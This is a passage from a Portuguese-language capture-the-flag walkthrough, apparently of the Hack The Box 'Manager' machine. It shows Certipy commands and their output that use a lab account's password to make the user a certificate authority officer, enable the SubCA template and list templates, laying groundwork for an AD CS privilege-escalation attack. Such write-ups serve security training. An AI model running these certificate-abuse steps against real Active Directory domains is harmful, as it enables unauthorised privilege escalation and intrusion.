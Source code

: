     `certipy a -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -add-officer raven -debug`
    
    ```bash
    certipy ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip
    10.10.11.236 -ca manager-dc01-ca -add-officer raven -debug
    Certipy v4.7.0 - by Oliver Lyak (ly4k)
    [+] Authenticating to LDAP server
    [+] Bound to ldaps://10.10.11.236:636 - ssl
    [+] Default path: DC=manager,DC=htb
    [+] Configuration path: CN=Configuration,DC=manager,DC=htb
    [+] Trying to get DCOM connection for: 10.10.11.236
    [*] Successfully added officer 'Raven' on 'manager-dc01-ca'
    
    ```
    
    Agora que somos um oficial, podemos emitir e gerenciar certificados. O modelo SubCA pode ser ativado na CA com a flag -enable-template.
    
    `certipy ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -enable-template subca`
    
    ```bash
    certipy ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip
    10.10.11.236 -ca manager-dc01-ca -enable-template subca
    Certipy v4.7.0 - by Oliver Lyak (ly4k)
    [*] Successfully enabled 'SubCA' on 'manager-dc01-ca'
    ```
    
    Os modelos de certificados habilitados podem ser listados usando a flag -list-templates.
    
    `certipy ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -list-templates`
    
    ```bash
    certipy ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip
    10.10.11.236 -ca manager-dc01-ca -list-templates
    Certipy v4.7.0 - by Oliver Lyak (ly4k)
    [*] Enabled certificate templates on 'manager-dc01-ca':
    SubCA
    DirectoryEmailReplication
    DomainControllerAuthentication
    KerberosAuthentication
    EFSRecovery
    EFS
    DomainController
    WebServer
    Machine
    User
    Administrator
    ```
    
    As condições prévias para o ataque estão agora cumpridas. Temos permissão para Gerenciar Certificados, concedida por meio de GerenciarCA, e garantimos que o modelo SubCA esteja habilitado. Agora, vamos solicitar um certificado com base no modelo SubCA. Esta solicitação será negada, mas obteremos um ID de solicitação e uma chave privada, que vamos salvar em um arquivo.
    